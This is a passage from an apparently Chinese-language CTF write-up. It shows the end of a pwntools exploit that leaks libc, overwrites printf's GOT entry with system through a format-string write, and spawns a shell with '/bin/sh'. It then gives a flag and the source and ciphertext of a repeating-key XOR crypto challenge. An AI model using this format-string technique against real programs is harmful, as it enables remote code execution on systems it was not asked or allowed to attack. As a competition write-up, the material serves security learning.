 ```python
conn.sendlineafter(b"Lyrics: ", payload)

conn.recvuntil(b"[")
leaked = conn.recvuntil(b"]", drop=True).strip()

print(f"{leaked =}")

# printf -> system
system = int(leaked[2:], base=16) - 0x23d0a + elf.libc.symbols["system"]
printf_got = elf.got["printf"] # 0x404028

writecommand_length = 0x70
writeaddr_begin = 0x70

## write command section
payload = f"%{6+writeaddr_begin//8}$n".encode()
num_temp = system
total = 0
for i in range(8):
    writenum = ((num_temp&0xff) - total) & 0xff
    if(writenum != 0):
        payload += f"%{writenum}c".encode()
    payload += f"%{6+writeaddr_begin//8+1+i}$hhn".encode()
    total += writenum
    num_temp //= 0x100
payload = payload.ljust(writecommand_length, b".")
## writeaddr section
payload += p64(main_called)
for i in range(8):
    payload += p64(printf_got+i)
conn.sendlineafter(b"Lyrics: ", payload)

# pwned
conn.sendline(b"/bin/sh")
conn.interactive()
```
:::

幹這題講解真他媽有夠長

由於比賽已結束，無法確認 flag 正確性，以下 flag 僅供參考

`lactf{printf_gave_me_up_and_let_me_down}`

## Crypto
### one-more-time-pad
```python=
from itertools import cycle
pt = b"Long ago, the four nations lived together in harmony ..."

key = cycle(b"lactf{??????????????}")

ct = ""

for i in range(len(pt)):
    b = (pt[i] ^ next(key))
    ct += f'{b:02x}'
print("ct =", ct)

#ct = 200e0d13461a055b4e592b0054543902462d1000042b045f1c407f18581b56194c150c13030f0a5110593606111c3e1f5e305e174571431e
```

